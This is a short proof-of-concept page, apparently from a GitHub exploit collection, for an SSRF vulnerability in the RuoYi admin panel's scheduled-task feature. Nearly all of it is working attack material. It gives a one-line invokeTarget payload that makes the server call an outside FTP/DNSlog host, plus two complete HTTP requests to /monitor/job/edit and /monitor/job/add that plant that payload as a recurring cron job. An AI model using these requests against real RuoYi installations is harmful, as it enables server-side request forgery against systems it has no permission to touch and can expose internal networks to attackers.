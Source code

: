 ## 若依后台定时任务存在SSRF漏洞


## poc
```
com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp://6a928e83f9.ipv6.1433.eu.org','')
```

![6bd379ec73798d26af505482a1863868](https://github.com/wy876/POC/assets/139549762/86812c61-c4ba-42da-9b39-564b19756bef)

![a2f9e3adc46a688643f3688d1464005c](https://github.com/wy876/POC/assets/139549762/ea2b8763-2303-4f6b-aa55-7b86a5a2f071)

## 数据包
```
POST /monitor/job/edit HTTP/1.1
Host: xxx
Connection: keep-alive
Content-Length: 242
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4

jobId=102&updateBy=admin&jobName=test&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=1&remark=
```

```
POST /monitor/job/add HTTP/1.1
Host: xxxx
Connection: keep-alive
Content-Length: 232
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Cookie: JSESSIONID=563ce678-53de-407f-8ed9-cabbc1f17ea4

createBy=admin&jobName=test1&jobGroup=DEFAULT&invokeTarget=com.ruoyi.common.utils.http.HttpUtils.sendPost('ftp%3A%2F%2F6a928e83f9.ipv6.1433.eu.org'%2C'')&cronExpression=0%2F1+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```

## 漏洞来源
- https://mp.weixin.qq.com/s/ttn46zznE4-op2GydL1i1A
